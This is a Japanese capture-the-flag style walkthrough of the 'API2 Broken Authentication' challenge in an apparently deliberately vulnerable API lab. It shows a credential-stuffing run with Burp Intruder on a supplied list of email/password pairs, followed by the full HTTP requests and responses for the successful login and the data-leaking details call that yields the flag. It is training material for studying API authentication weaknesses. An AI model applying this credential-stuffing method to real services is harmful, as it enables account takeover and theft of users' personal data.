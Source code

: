 # API2 Broken Authentication
認証に必要な情報がないが、どうやってログインする？

この問題はResourceフォルダに入っている「API2_CredentialStuffing.csv」を使う。  
csvにはメールと謎の文字列が1000行入っている。
```csv
brown.grimes@hotmail.com,w_5yhfEN
reuben.heaney@hotmail.com,8JhcB_mH
dcronin@robel.com,V$qe{8+3
hcollier@veum.com,vVsU7/yN
vemard@gmail.com,gRfJ3$U7
```

csvの1行目をemailとpasswordに入れてログイン試行してみるが入れない。
```http
POST /vapi/api2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: c92a283e-4a01-4caa-8f60-ce3b38d203f1
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 72

{
    "email":"brown.grimes@hotmail.com",
    "password":"w_5yhfEN"
}
```

```http
HTTP/1.1 401 Unauthorized
Host: localhost
Date: Sat, 05 Mar 2022 13:11:20 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:11:20 GMT
Content-Type: application/json

{"success":"false","cause":"usernameOrPasswordIncorrect"}
```

### 1000パターンすべて試行してみる。
Intruderに送り、emailとpasswprdが強調された状態で、Attack typeは「Pitchfork」とする。
![](20220305221710.png)

Payloadsタブに移動。
Payload set「1」にメール1000件コピーしたものを「Paste」。
Payload set「2」に謎の文字列1000件コピーしたものを「Paste」。  
![](20220305222132.png)

「Start attack」を押して試行開始。  
無償版のBurp Suite Community Editionだと日が暮れるぐらい時間かかる。

以下の通り、success:trueが返ってくる組み合わせがある。  
```
POST /vapi/api2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 627a5607-4b93-4979-8d08-b10fd8064a2b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 67

{
    "email":"savanna48@ortiz.com",
    "password":"zTyBwV/9"
}
```
```
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:28:02 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:28:02 GMT
Content-Type: application/json

{"success":"true","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB"}
```

得られたtokenを引き継いでGet Details APIを実行するとFlagが返ってくる。  
```http
GET /vapi/api2/user/details HTTP/1.1
Authorization-Token: Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 836f1cd2-79dc-4463-847c-2710ffd87345
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```

```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:30:06 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:30:06 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```
